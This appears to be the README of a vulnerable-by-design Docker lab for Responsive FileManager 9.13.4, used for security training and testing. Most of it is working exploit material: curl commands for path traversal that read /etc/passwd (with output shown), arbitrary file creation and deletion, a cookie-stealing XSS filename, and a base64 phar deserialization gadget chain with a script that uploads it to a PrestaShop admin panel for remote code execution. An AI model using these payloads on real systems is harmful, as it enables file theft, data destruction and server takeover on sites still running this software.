

# Responsive FileManager <= 9.13.4 Multiple Vulnerabilities

Responsive FileManager (https://responsivefilemanager.com/) is a free open-source file manager made with the jQuery library, CSS3, PHP and HTML5 that offers a nice and elegant way to upload and insert files, images and videos. You can use it as external plugin for TinyMCE version 4.x. or CKEditor and you can also use it as a stand-alone file manager to manage and select files.

This environment contains vulnerable Responsive FileManager 9.13.4 (path traversal, XSS, and arbitrary deserialization - fixed in 9.14.0).

## Environment Setup

Enter the following command:

```
docker-compose up -d
```

Visit `http://127.0.0.1:8000/filemanager/dialog.php` to interract with the web application.

## Exploit

1. Arbitrary file read via path traversal in path parameter in get_file action in ajax_calls.php.

```
$ curl -X POST -d "path=../../../../../../../etc/passwd" -H "Cookie: PHPSESSID=12k93hcuj6b7qt2jmnn40rd612" "http://127.0.0.1:8000/filemanager/ajax_calls.php?action=get_file&sub_action=edit&preview_mode=text"
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
```

2. Arbitrary file read via path traversal in path parameter in copy_cut action in ajax_calls.php and paste_clipboard action in execute.php.

```
# Copy/cut the file with directory traversal path so the file path will be saved to the session.
$ curl -X POST -d "sub_action=copy&path=../../../../../../../etc/passwd" -H "Cookie: PHPSESSID=12k93hcuj6b7qt2jmnn40rd612" "http://127.0.0.1:8000/filemanager/ajax_calls.php?action=copy_cut"

# Paste the clipboard
$ curl -X POST -d "path=" -H "Cookie: PHPSESSID=12k93hcuj6b7qt2jmnn40rd612" "http://127.0.0.1:8000/filemanager/execute.php?action=paste_clipboard"

# File is in the `upload_dir` folder or in the dialog page.
$ curl http://127.0.0.1:8000/source/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
```

3. Arbitrary file read/write/deletion/modification via path traversal mitigation bypass in execute.php.

```
# Mitigation for directory traversal in execute.php is broken. The `$path` variable is accidentally overwritten after sanitation if `$paths` array parameter is used so we can traverse back and delete/create/rename/edit/chmod arbitrary files/folders.

# For example, create `hacked.txt` int `tmp` folder.
$ curl -X POST -d "paths[0]=../../../../../../../../tmp/&names[0]=hacked.txt&new_content=Hacked" -H "Cookie: PHPSESSID=12k93hcuj6b7qt2jmnn40rd612" "http://127.0.0.1:8000/filemanager/execute.php?action=create_file"
$ ls /tmp
hacked.txt

# We can also use path traversal for other actions (delete_file, delete_files, delete_folder, create_folder, rename_folder, rename_file, duplicate_file, paste_clipboard, chmod, save_text_file)
```

4. Arbitrary image write/overwrite (jpg/jpeg/png) via path traversal in save_img action in ajax_calls.php.

```
$ curl -X POST -d "path=../../../../../../../tmp/&name=hacked.jpg&url=http://s3.amazonaws.com/feather-files-aviary-prod-us-east-1/2444282ef4344e3dacdedc7a78f8877d/2018-10-23/44f0f34961464feb92b53d953b02d4bb.jpg" -H "Cookie: PHPSESSID=12k93hcuj6b7qt2jmnn40rd612" "http://127.0.0.1:8000/filemanager/ajax_calls.php?action=save_img"

root@fac1a9f2191d:/var/www/html/filemanager# ls /tmp
hacked.jpg
```

5. Persistent XSS in media_preview.

```
# Upload a file with valid media extension (e.g. mp3) with XSS payload in the name. For example, `"a\"%2balert(document.cookie)%2b\"".mp3` will trigger `alert(document.cookie)` when previewed.
```



6. Image folder deletion/rename in delete_folder and rename_folder actions in execute.php.

```
# The code in execute.php allow path to be empty, resulting to deletion or renaming the original image folder.

# To delete folder
$ curl -X POST -d "path=" -H "Cookie: PHPSESSID=12k93hcuj6b7qt2jmnn40rd612" "http://127.0.0.1:8000/filemanager/execute.php?action=delete_folder"

# To rename folder
$ curl -X POST -d "path=&name=renamed" -H "Cookie: PHPSESSID=12k93hcuj6b7qt2jmnn40rd612" "http://127.0.0.1:8000/filemanager/execute.php?action=rename_folder"
```

7. Arbitrary (phar) deserialization via image_size action in ajax_calls.php.

```
       // Vulnerable code

       case 'image_size':
            if (realpath(dirname(_PS_ROOT_DIR_.$_POST['path'])) != realpath(_PS_ROOT_DIR_.$upload_dir)) {
                die();
            }
            $pos = strpos($_POST['path'], $upload_dir);
            if ($pos !== false) {
                $info = getimagesize(substr_replace($_POST['path'], $current_path, $pos, strlen($upload_dir)));
                echo json_encode($info);
            }

            break;

        // Our target is to controlling the getimagesize() parameter so we can pass the path to our malicious phar file
```

```
# This is the POC to exploiting deserialization in outdated Responsive FileManager in PrestaShop <= 1.7.4.4 & <= 1.6.1.23 to achieve RCE

poc="PD9waHAgX19IQUxUX0NPTVBJTEVSKCk7ID8+DQrQAgAAAQAAABEAAAABAAAAAACeAgAATzozMjoiTW9ub2xvZ1xIYW5kbGVyXFN5c2xvZ1VkcEhhbmRsZXIiOjE6e3M6OToiACoAc29ja2V0IjtPOjI5OiJNb25vbG9nXEhhbmRsZXJcQnVmZmVySGFuZGxlciI6Nzp7czoxMDoiACoAaGFuZGxlciI7TzoyOToiTW9ub2xvZ1xIYW5kbGVyXEJ1ZmZlckhhbmRsZXIiOjc6e3M6MTA6IgAqAGhhbmRsZXIiO047czoxMzoiACoAYnVmZmVyU2l6ZSI7aTotMTtzOjk6IgAqAGJ1ZmZlciI7YToxOntpOjA7YToyOntpOjA7czoyOToiaWQ7IHVuYW1lIC1hOyBjYXQgL2V0Yy9wYXNzd2QiO3M6NToibGV2ZWwiO047fX1zOjg6IgAqAGxldmVsIjtOO3M6MTQ6IgAqAGluaXRpYWxpemVkIjtiOjE7czoxNDoiACoAYnVmZmVyTGltaXQiO2k6LTE7czoxMzoiACoAcHJvY2Vzc29ycyI7YToyOntpOjA7czo3OiJjdXJyZW50IjtpOjE7czo2OiJzeXN0ZW0iO319czoxMzoiACoAYnVmZmVyU2l6ZSI7aTotMTtzOjk6IgAqAGJ1ZmZlciI7YToxOntpOjA7YToyOntpOjA7czoyOToiaWQ7IHVuYW1lIC1hOyBjYXQgL2V0Yy9wYXNzd2QiO3M6NToibGV2ZWwiO047fX1zOjg6IgAqAGxldmVsIjtOO3M6MTQ6IgAqAGluaXRpYWxpemVkIjtiOjE7czoxNDoiACoAYnVmZmVyTGltaXQiO2k6LTE7czoxMzoiACoAcHJvY2Vzc29ycyI7YToyOntpOjA7czo3OiJjdXJyZW50IjtpOjE7czo2OiJzeXN0ZW0iO319fQQAAAB0ZXN0BAAAAKbG0FsEAAAADH5/2LYBAAAAAAAAdGVzdOtxKhRJ64wMkUmzxYZ4OjcwEMw2AgAAAEdCTUI="

# Put the Cookie here

COOKIE=""

# Put Admin URL here
ADMIN_URL=""

rm poc.pdf 2>/dev/null

printf $poc | base64 --decode > poc.pdf

curl -F file=@poc.pdf \
  "$ADMIN_URL/filemanager/upload.php" \
  -H "cookie: $COOKIE" 

curl -X POST \
  "$ADMIN_URL/filemanager/execute.php?action=rename_folder" \
  -H "cookie: $COOKIE" \
  -d "name=renamed"

curl -X POST \
  "$ADMIN_URL/filemanager/ajax_calls.php?action=image_size" \
  -H "cookie: $COOKIE" \
  -d "path=phar://../../img/renamed/poc.pdf/img/cms/
```
